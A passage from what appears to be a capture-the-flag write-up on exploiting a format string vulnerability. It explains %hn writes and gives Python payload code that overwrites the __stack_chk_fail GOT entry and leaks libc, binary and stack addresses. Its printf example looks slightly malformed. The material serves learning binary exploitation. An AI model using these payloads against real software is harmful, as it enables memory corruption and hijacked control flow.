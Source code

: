 - `%17$hn` just adds several modifications to this idea. The `17` tells printf to select the 17th address on the stack, and write to that. The `hn` tells printf to write to a `WORD`, i.e. write to a 2-byte location.  

Putting it all together, here's an example of how that would work:  

```c
printf("%570%4$hn", 0xAAAAAAAA, 0xBBBBBBBB, 0xCCCCCCCC, 0x13371337);
```
This would result in the following state (assuming 0x13371330 is initialized to all zeros):  
```
0x13371330: 00 00 00 00 00 02 3a 00
```

Also, this isn't a comprehensive overview of format string vulnerabilities, so I would highly recommend you check out [pwn.college](https://pwn.college/software-exploitation/format-string-exploits/) for a really in-depth tutorial. It will take some time but it is definitely worth it :)  

### continuing the payload

Once we're done writing the format string, we just make sure we partially overflow the address on the stack that we're writing to:  

```py
missing_byte = int(input(), 16)

overflow_offset = 0x8*10 + 1

payload = f'%{(elf.sym.vuln % 0x1000) | ((missing_byte - 3) << 12)}lx%17$hn'.encode()
payload = payload.ljust(overflow_offset, b'A')
payload += (elf.got['__stack_chk_fail'] % 0x100).to_bytes(1, 'big')
payload += ((missing_byte << 4)).to_bytes(1, 'big')
send(payload, line=False)
```

And there's our GOT overwrite done! Returned back to `vuln()` :)  

### leaks

There really isn't much to say here. Just leak everything useful off the stack by playing around in GDB and finding the format string offsets to each one. (remember to always use `%[OFFSET]$lx` to read a 64-bit value with the `l` modifier)  

```py
input()
libc_leak_offset = 3
elf_leak_offset = 9
stack_leak_offset = 22
send(f'%{libc_leak_offset}$lx%{elf_leak_offset}$lx%{stack_leak_offset}$lx'.encode(), line=False)
leak = p.recvrepeat(1)
leak = leak[leak.index(b'A'):]
leak = leak[leak.index(b'7f'):]

libc_leak = int(leak[:12], 16)
libc.address = libc_leak - 0xf3a61 - 0x28000

elf_leak = int(leak[12:24], 16)
elf.address = elf_leak - 0x247 - 0x1000

stack_leak = int(leak[24:36], 16)
next_frame_rsp = stack_leak + (0x7fff2729a160 - 0x7fff2729a2f8)
```
